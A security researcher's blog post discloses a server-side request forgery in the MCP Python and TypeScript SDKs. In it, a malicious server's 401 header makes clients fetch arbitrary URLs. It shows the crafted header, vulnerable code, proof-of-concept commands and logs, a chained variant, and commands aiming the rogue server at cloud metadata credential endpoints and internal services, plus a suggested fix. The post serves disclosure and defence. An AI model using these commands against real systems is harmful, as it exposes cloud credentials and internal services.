





# MCP SSRF via OAuth PRM Discovery: How a 401 Turns Your Client Into a Proxy

> This is the **second article in my series on MCP security research**. The first covered [SVG icon injection leading to XSS and RCE through the protocol spec](/posts/mcp-svg-icon-xss-to-rce/). This one goes deeper into the authentication layer.

---

## Context and Disclosure

This research was submitted to Anthropic's Vulnerability Disclosure Program. After review, the report was closed as a **duplicate of an existing report already being tracked**.

A duplicate is not a rejection — it confirms the vulnerability is real, known, and being worked on. With no embargo in place and no patch yet public, I'm publishing the full technical details here. The goal is to document the attack surface clearly so developers building on top of the MCP SDKs can understand and mitigate the risk in their own implementations.

---

## Table of Contents

1. [TL;DR](#tldr)
2. [Background: OAuth in MCP](#background-oauth-in-mcp)
3. [The Vulnerability: No Origin Validation Before Fetch](#the-vulnerability-no-origin-validation-before-fetch)
4. [Vulnerable Code — Python SDK](#vulnerable-code--python-sdk)
5. [Vulnerable Code — TypeScript SDK](#vulnerable-code--typescript-sdk)
6. [Attack Flow](#attack-flow)
7. [Proof of Concept](#proof-of-concept)
8. [Chained SSRF](#chained-ssrf)
9. [Real-World Targets](#real-world-targets)
10. [Why This Is a Bug, Not a Design Choice](#why-this-is-a-bug-not-a-design-choice)
11. [Suggested Fix](#suggested-fix)
12. [Conclusion](#conclusion)

---

## TL;DR

A malicious MCP server returns a `401 Unauthorized` with a single crafted header:

```http
WWW-Authenticate: Bearer resource_metadata="http://169.254.169.254/latest/meta-data/"
```

The MCP client SDK parses this header and immediately fetches the `resource_metadata` URL — **without checking that it belongs to the same domain as the server**. The victim's machine sends an HTTP request to whatever URL the attacker chose: cloud metadata endpoints, internal APIs, localhost services.

One header. One request. Blind SSRF.

Both the Python SDK (`mcp`) and TypeScript SDK (`@modelcontextprotocol/sdk`) are affected. Any client built on these SDKs — including Claude Desktop and Claude Code — is vulnerable when connecting to an untrusted MCP server.

---

## Background: OAuth in MCP

The MCP specification added OAuth 2.0 support for authenticating clients to servers. The flow follows [RFC 9728 — OAuth 2.0 Protected Resource Metadata](https://www.rfc-editor.org/rfc/rfc9728).

Here's how the discovery phase works in the normal, legitimate case:

1. Client connects to an MCP server
2. Server responds `401 Unauthorized` with a `WWW-Authenticate` header
3. The header includes a `resource_metadata` parameter pointing to a JSON document that describes where to find the OAuth authorization server
4. Client fetches that JSON document to discover the OAuth endpoints
5. Client proceeds with the OAuth dance

This discovery step — fetching the `resource_metadata` URL — is where the vulnerability lives.

The spec says the `resource_metadata` URL should be on the same server as the MCP endpoint. The SDK never enforces that.

---

## The Vulnerability: No Origin Validation Before Fetch

The root cause is a single missing check: **the SDK fetches the `resource_metadata` URL before validating that it shares the same origin as the MCP server**.

The validation code exists — `_validate_resource_match()` was implemented specifically to check that the PRM response matches the expected resource. But it runs on the **response body**, not on the **URL**. By the time that check runs, the HTTP request has already left the machine.

```
[Attacker injects URL] → [SDK fetches URL] → [_validate_resource_match() runs]
                                    ^
                              SSRF happens here
                              (before any validation)
```

This ordering is what makes it a bug rather than a design choice.

---

## Vulnerable Code — Python SDK

### `mcp/client/auth/utils.py` — URL extraction with no origin check

```python
def build_protected_resource_metadata_discovery_urls(
    www_auth_url: str | None, server_url: str
) -> list[str]:
    urls: list[str] = []
    # Priority 1: WWW-Authenticate header with resource_metadata parameter
    if www_auth_url:
        urls.append(www_auth_url)  # ← attacker-controlled URL, zero validation
    # ... fallback URLs based on server_url ...
    return urls
```

The function receives `www_auth_url` — the value extracted directly from the `WWW-Authenticate` header — and adds it to the fetch queue without any check against `server_url`.

### `mcp/client/auth/oauth2.py` — the fetch itself

```python
for url in prm_discovery_urls:  # includes the unvalidated attacker URL
    discovery_request = create_oauth_metadata_request(url)
    discovery_response = yield discovery_request  # ← HTTP GET to arbitrary URL

    prm = await handle_protected_resource_response(discovery_response)
    if prm:
        await self._validate_resource_match(prm)  # runs AFTER the fetch — too late
        self.context.auth_server_url = str(prm.authorization_servers[0])  # ← chained SSRF
```

Two things to note here:
- `_validate_resource_match()` runs after the HTTP request — the SSRF has already happened
- `prm.authorization_servers[0]` is then used for a **second** fetch — chained SSRF to a different internal target

---

## Vulnerable Code — TypeScript SDK

### `packages/client/src/client/auth.ts` — URL parsing without origin check

```typescript
if (resourceMetadataMatch) {
    resourceMetadataUrl = new URL(resourceMetadataMatch);  // No origin validation
}
```

The `resourceMetadataMatch` value comes directly from parsing the `WWW-Authenticate` header. `new URL()` accepts any valid URL — `http://169.254.169.254/` is perfectly valid.

### Later in the same file — the fetch

```typescript
const response = await fetch(new URL(opts.metadataUrl));  // SSRF
```

Same pattern: parse header, store URL, fetch URL, no origin check anywhere in between.

---

## Attack Flow

```
┌──────────┐    1. Connect       ┌───────────────────────┐
│  Victim  │ ──────────────────> │  Malicious MCP Server │
│  MCP     │                     │  (attacker.com/mcp)   │
│  Client  │ <────────────────── │                       │
│          │  2. 401             │  WWW-Authenticate:    │
│          │     resource_metadata="http://169.254..."   │
└──────────┘                     └───────────────────────┘
      │
      │  3. HTTP GET http://169.254.169.254/latest/meta-data/
      │     (SDK fetches this — client never configured to contact it)
      v
┌──────────────────────────────┐
│  Internal Target             │
│  AWS IMDS / cloud metadata   │
│  internal API / localhost    │
└──────────────────────────────┘
```

From the attacker's perspective, this requires two things:

1. Run a server that returns `401` with a crafted `WWW-Authenticate` header
2. Wait for a victim to add it to their MCP config

That's it. The malicious server never needs to complete the OAuth flow. It never needs to respond with valid MCP data. The SSRF triggers on the very first connection attempt.


*The full PoC running: rogue server on port 8080, canary on port 8888, victim client connecting. The client was only configured with port 8080 — but port 8888 will receive a request.*

---

## Proof of Concept

The PoC uses three components:

| Component | Role |
|:--|:--|
| `malicious_mcp_server.py` | Returns `401` with `resource_metadata` pointing at the canary |
| `canary_server.py` | Logs every incoming request — any hit here proves SSRF |
| `victim_client.py` | Standard MCP client using SDK OAuth flow |
| `proof_standalone.py` | Calls vulnerable SDK functions directly — no servers needed |

```bash
# Prerequisites
pip install mcp httpx

# Terminal 1 — canary (simulates internal service)
python canary_server.py -p 8888

# Terminal 2 — rogue MCP server
python malicious_mcp_server.py -t "http://localhost:8888/ssrf-proof" -p 8080

# Terminal 3 — victim (standard SDK usage)
python victim_client.py -s http://localhost:8080
```

### Rogue server logs — one POST, nothing else

The server received a single `initialize` request and returned a 401. That's all it did.


*The rogue server only returned a 401. It never responded with any MCP data, never completed OAuth. One line of log.*

### Victim client logs — SDK fetches the injected URL

The client logs tell the full story:


*The SDK parsed the `resource_metadata` value from the 401 header and made a `GET http://localhost:8888/ssrf-proof` request — a URL the client was never configured to contact.*

The relevant log lines:

```
httpcore.http11: receive_response_headers.complete
  [..., (b'WWW-Authenticate',
         b'Bearer resource_metadata="http://localhost:8888/ssrf-proof"')]

httpx: HTTP Request: GET http://localhost:8888/ssrf-proof "HTTP/1.0 200 OK"
```

The client connected to `localhost:8080`. It had no reason to ever contact `localhost:8888`. The only reason that request exists is the rogue server's `WWW-Authenticate` header.

### Canary confirms the hit


*The canary received a `GET /ssrf-proof` from the victim client. Notice the `mcp-protocol-version` header — this is the MCP SDK making the request, using its own headers.*

```
--- SSRF HIT ---
  GET /ssrf-proof
  from 127.0.0.1:33512
  Host: localhost:8888
  mcp-protocol-version: 2025-11-25
----------------
```

The `mcp-protocol-version` header in the SSRF request is the SDK's fingerprint. In a real attack targeting an internal API, that header would arrive at the internal service, identifying the request as coming from an MCP client.

### Standalone proof — no infrastructure needed

`proof_standalone.py` calls the vulnerable SDK functions directly and shows the injected URL appearing in the fetch queue:


*The standalone test calls `build_protected_resource_metadata_discovery_urls()` directly with an attacker-controlled URL and a legitimate server URL. The attacker's URL appears first in the list — zero validation.*

```
=== Test 1: arbitrary URL gets into the fetch list ===

  target:   http://169.254.169.254/latest/meta-data/iam/security-credentials/
  server:   https://legit-server.example.com/api/mcp
  origins:  169.254.169.254 vs legit-server.example.com
    [1] http://169.254.169.254/latest/meta-data/iam/security-credentials/  <-- SSRF
    [2] https://legit-server.example.com/.well-known/oauth-protected-resource
```

The server origin is `legit-server.example.com`. The URL in position [1] is `169.254.169.254`. The SDK puts it there without any check.

---

## Chained SSRF

If the first SSRF target returns valid-looking Protected Resource Metadata JSON, the attack chains to a second internal target.

The SDK uses `authorization_servers[0]` from the PRM response as the base URL for a second discovery request — fetching `<url>/.well-known/oauth-authorization-server`.


*Left: Test 1 shows `169.254.169.254` entering the fetch list with zero validation. Right: Test 3 shows the second-stage GET to `10.0.0.50:9200` — one rogue server, two internal targets.*

```
Rogue server → 401 with resource_metadata="http://attacker-prm.com/"
                                                  │
Client fetches PRM ───────────────────────────────┘
    Returns: {"authorization_servers": ["http://10.0.0.50:9200"]}
                                               │
Client fetches OAuth metadata ─────────────────┘
    GET http://10.0.0.50:9200/.well-known/oauth-authorization-server
    → second-stage SSRF to internal Elasticsearch
```

The standalone proof demonstrates this directly:

```
=== Test 3: chained SSRF via authorization_servers ===

  authorization_servers[0] = http://10.0.0.50:9200
    [1] http://10.0.0.50:9200/.well-known/oauth-authorization-server  <-- second-stage SSRF
    [2] http://10.0.0.50:9200/.well-known/oauth-authorization-server
```

---

## Real-World Targets

In a real attack, the `resource_metadata` URL would point at something the attacker actually wants to reach:

```bash
# AWS credentials on EC2 (IMDSv1 — no token required)
python malicious_mcp_server.py -t "http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# GCP metadata (similar endpoint, different path)
python malicious_mcp_server.py -t "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/"

# Internal Elasticsearch
python malicious_mcp_server.py -t "http://10.0.0.50:9200/_cluster/health"

# Internal Redis (any request is enough to probe existence)
python malicious_mcp_server.py -t "http://localhost:6379/"
```

The SSRF is **blind by default** — the rogue server doesn't see the response from the internal target. But for cloud metadata endpoints, the response often comes back as the body of the OAuth discovery request, which the SDK logs. In verbose logging mode (which developers commonly enable during debugging), credentials can leak directly into logs.

For non-blind exfiltration, the chained SSRF variant is more effective: if the internal service returns JSON, the SDK processes it and may expose fields through error messages or subsequent requests.

---

## Why This Is a Bug, Not a Design Choice

The MCP spec is clear: the `resource_metadata` URL "MUST be hosted on the same server as the MCP server." This is a MUST, not a MAY.

More importantly: **the SDK developers already knew origin validation was needed**. The proof is `_validate_resource_match()` — a function that checks whether the PRM response's `resource` field matches the MCP server URL. That check exists precisely to enforce the same-origin requirement.

The bug is not a missing feature. It's a sequencing error: the validation runs on the response body after the HTTP request completes, instead of on the URL before the request is sent.

```python
# Current (broken) order:
fetch(attacker_url)           # SSRF happens
validate_response_body()      # too late

# Correct order:
validate_url_origin()         # block it here
fetch(validated_url)          # safe
validate_response_body()      # defense in depth
```

Compare this to the [first article's finding](/posts/mcp-svg-icon-xss-to-rce/) where the spec used `MAY` for sanitization — deliberately leaving it optional. Here, the spec says `MUST`, and the implementation fails to enforce it before making the network request.

---

## Suggested Fix

### Option 1: Origin validation before fetch (recommended)

Validate that the `resource_metadata` URL shares the same scheme, host, and port as the MCP server before adding it to the fetch list:

```python
def build_protected_resource_metadata_discovery_urls(
    www_auth_url: str | None, server_url: str
) -> list[str]:
    urls: list[str] = []
    if www_auth_url:
        server_parsed = urlparse(server_url)
        www_auth_parsed = urlparse(www_auth_url)
        if (server_parsed.scheme == www_auth_parsed.scheme and
            server_parsed.netloc == www_auth_parsed.netloc):
            urls.append(www_auth_url)
        else:
            logger.warning(
                f"Ignoring resource_metadata URL {www_auth_url!r} — "
                f"origin does not match server {server_url!r}"
            )
    # ... fallback URLs derived from server_url (safe) ...
    return urls
```

This fix is two comparisons. It enforces what the spec already requires. It blocks every variant of this attack.

### Option 2: Block private/internal IP ranges

As defense in depth, reject URLs that resolve to private address space:

```python
import ipaddress

BLOCKED_NETWORKS = [
    ipaddress.ip_network("10.0.0.0/8"),
    ipaddress.ip_network("172.16.0.0/12"),
    ipaddress.ip_network("192.168.0.0/16"),
    ipaddress.ip_network("169.254.0.0/16"),  # link-local / IMDS
    ipaddress.ip_network("127.0.0.0/8"),
    ipaddress.ip_network("::1/128"),
    ipaddress.ip_network("fc00::/7"),
]
```

Note: IP blocklisting alone is insufficient — an attacker with a public hostname that DNS-rebinds to a private IP can bypass it. Origin validation is the correct primary fix.

---

## Conclusion

A single `WWW-Authenticate` header is enough for a malicious MCP server to turn any connecting client into an SSRF proxy. The client never completes the OAuth flow. It never runs any MCP tools. The SSRF fires on the first connection attempt, before the user has done anything.

Both SDKs are affected. Claude Desktop and Claude Code are affected. Any client built on the official MCP SDKs is affected.

The fix is straightforward: validate the URL's origin before fetching it. The validation logic already exists in the codebase — it just runs in the wrong order.

The broader lesson from both articles in this series: the MCP ecosystem is moving fast, OAuth support is new, and the attack surface is actively being explored. If you're building an MCP client, treat every server as untrusted by default. If you're deploying an MCP server, understand that connecting users are placing significant trust in your infrastructure — including for OAuth discovery.

---

*Research and writeup by [@felixbillieres](https://github.com/felixbillieres) (elliot_belt)*
